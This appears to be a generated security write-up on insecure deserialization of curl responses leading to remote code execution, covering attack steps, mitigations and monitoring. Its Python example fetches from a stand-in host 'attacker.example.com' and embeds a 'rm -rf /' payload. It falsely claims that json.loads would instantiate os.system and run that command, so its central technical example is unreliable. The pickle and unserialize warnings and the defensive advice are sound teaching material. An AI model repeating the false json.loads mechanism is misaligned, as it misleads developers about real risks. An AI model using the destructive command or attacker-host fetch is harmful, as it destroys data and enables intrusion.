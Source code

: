 ## Deep Analysis: Insecure Deserialization of Curl Response (Impact: Remote Code Execution)

This analysis delves into the attack tree path "Insecure Deserialization of Curl Response (Impact: Remote Code Execution)" targeting applications using the `curl` library. This is a **CRITICAL** vulnerability due to the potential for complete system compromise.

**Understanding the Attack Path:**

The core of this attack lies in the application's handling of data received from external sources via `curl`. Specifically, if the application deserializes this data without proper validation and sanitization, an attacker can manipulate the response to inject malicious serialized objects. When the application deserializes these objects, it can lead to the execution of arbitrary code on the server.

**Breakdown of the Attack:**

1. **Attacker Controls the Malicious Server/Endpoint:** The attacker needs to control the server or endpoint that the application's `curl` request is targeting. This could be a compromised legitimate server, a server specifically set up for the attack, or even a man-in-the-middle (MITM) attack scenario (though less likely for HTTPS unless certificates are improperly handled).

2. **Crafting the Malicious Response:** The attacker crafts a response containing a malicious serialized object. The specific format of this object depends on the deserialization library used by the application (e.g., JSON, XML, Python's `pickle`, PHP's `unserialize`). The malicious object is designed to execute arbitrary code when deserialized.

3. **Application Makes a `curl` Request:** The vulnerable application makes an HTTP request using `curl` to the attacker-controlled server/endpoint.

4. **Attacker's Server Responds with the Malicious Payload:** The attacker's server responds to the `curl` request with the crafted malicious serialized object as part of the response body.

5. **Application Receives and Deserializes the Response:** The application receives the response from `curl`. Crucially, it then proceeds to deserialize the response body without proper validation or sanitization.

6. **Malicious Object is Deserialized:** The deserialization process interprets the attacker's crafted object.

7. **Remote Code Execution (RCE):**  The deserialized malicious object triggers the execution of arbitrary code on the server hosting the vulnerable application. This allows the attacker to gain complete control over the server, potentially leading to data breaches, further attacks, and system downtime.

**Technical Deep Dive:**

* **Vulnerable Components:**
    * **`curl` Library Usage:** While `curl` itself is a powerful and secure library for making HTTP requests, it's the *application's use* of the received data that creates the vulnerability.
    * **Deserialization Library:** The specific library used for deserialization (e.g., `json.loads()` in Python, `json_decode()` in PHP, XML parsers with entity expansion vulnerabilities) is the primary point of exploitation.
    * **Lack of Input Validation:** The absence of robust validation and sanitization of the `curl` response before deserialization is the fundamental flaw.

* **Data Formats and Exploitation:**
    * **JSON:** While generally considered safer than other formats, vulnerabilities can arise if custom deserialization logic is used or if the application blindly trusts the structure and content.
    * **XML:**  XML deserialization is notoriously vulnerable, especially with features like external entity expansion (XXE). Attackers can inject malicious XML that, upon parsing, forces the server to access local files or even execute commands.
    * **Python's `pickle`:**  `pickle` is inherently unsafe when dealing with untrusted data. It allows for arbitrary code execution during deserialization.
    * **PHP's `unserialize`:** Similar to `pickle`, `unserialize` in PHP is a well-known source of RCE vulnerabilities if used on untrusted input.

* **Example Scenario (Conceptual Python using `json`):**

   ```python
   import requests
   import json
   import os

   def process_response(response_data):
       # Vulnerable code: Directly deserializes without validation
       data = json.loads(response_data)
       # ... application logic using 'data' ...

   # In a separate attacker-controlled server:
   # The server sends a response like this:
   # {"__class__": "os.system", "__init__": ["rm -rf /"]}

   response = requests.get("https://attacker.example.com/malicious_api")
   process_response(response.text) # Boom! Potential RCE
   ```

   In this simplified example, the attacker crafts a JSON payload that, when deserialized by `json.loads`, instantiates an `os.system` object with the command `rm -rf /`.

**Impact and Severity:**

* **Remote Code Execution (RCE):** This is the most severe impact. The attacker gains the ability to execute arbitrary commands on the server, effectively owning the system.
* **Data Breach:** Attackers can access sensitive data stored on the server, including databases, configuration files, and user information.
* **System Compromise:** The attacker can install malware, create backdoors, and use the compromised server as a launching point for further attacks.
* **Denial of Service (DoS):**  While RCE is the primary concern, attackers could also use this vulnerability to crash the application or consume excessive resources.

**Mitigation Strategies:**

* **Avoid Deserialization of Untrusted Data:** The most secure approach is to avoid deserializing data from external sources entirely if possible. Explore alternative data exchange formats and processing methods.
* **Input Validation and Sanitization:**  Thoroughly validate and sanitize the `curl` response before attempting deserialization. This includes:
    * **Schema Validation:** Ensure the response conforms to an expected structure.
    * **Type Checking:** Verify the data types of individual fields.
    * **Allowlisting:** Only accept known and safe values.
    * **Content Security Policies (CSPs):** While primarily for web browsers, CSP concepts can be adapted to limit the actions of deserialized objects.
* **Use Secure Deserialization Libraries:** If deserialization is necessary, use libraries that are designed with security in mind and have built-in protections against common vulnerabilities.
* **Principle of Least Privilege:** Ensure the application runs with the minimum necessary privileges. This limits the damage an attacker can cause even if they achieve RCE.
* **Sandboxing and Isolation:**  Run the application in a sandboxed environment or use containerization technologies to limit the impact of a successful attack.
* **Regular Security Audits and Penetration Testing:**  Proactively identify and address potential vulnerabilities through regular security assessments.
* **Stay Updated:** Keep the `curl` library and all other dependencies up to date with the latest security patches.
* **Consider Alternative Data Formats:** If possible, use data formats that are less prone to deserialization vulnerabilities, such as simple text-based formats with well-defined parsers.

**Detection and Monitoring:**

* **Monitor `curl` Requests and Responses:** Log and monitor the content of `curl` requests and responses for unusual patterns or suspicious data.
* **Intrusion Detection/Prevention Systems (IDS/IPS):** Configure IDS/IPS to detect known deserialization attack patterns.
* **Application Performance Monitoring (APM):** Monitor application behavior for unexpected resource usage or errors that could indicate a deserialization attack.
* **Security Information and Event Management (SIEM):** Correlate logs from various sources to detect suspicious activity related to `curl` and deserialization.

**Responsibilities of the Development Team:**

* **Security-Aware Coding Practices:** Developers must be aware of the risks associated with deserialization and implement secure coding practices.
* **Thorough Testing:** Implement comprehensive unit and integration tests to ensure proper validation and sanitization of `curl` responses.
* **Code Reviews:** Conduct thorough code reviews to identify potential deserialization vulnerabilities.
* **Stay Informed:** Keep up-to-date with the latest security vulnerabilities and best practices related to deserialization.

**Conclusion:**

The "Insecure Deserialization of Curl Response" attack path represents a significant security risk for applications utilizing the `curl` library. The potential for Remote Code Execution demands a proactive and comprehensive approach to mitigation. By understanding the mechanics of this attack, implementing robust input validation, and adopting secure deserialization practices, development teams can significantly reduce the likelihood of successful exploitation and protect their applications from this critical vulnerability. This requires a shift towards a "trust no external data" mindset when handling responses from `curl` and other external sources.
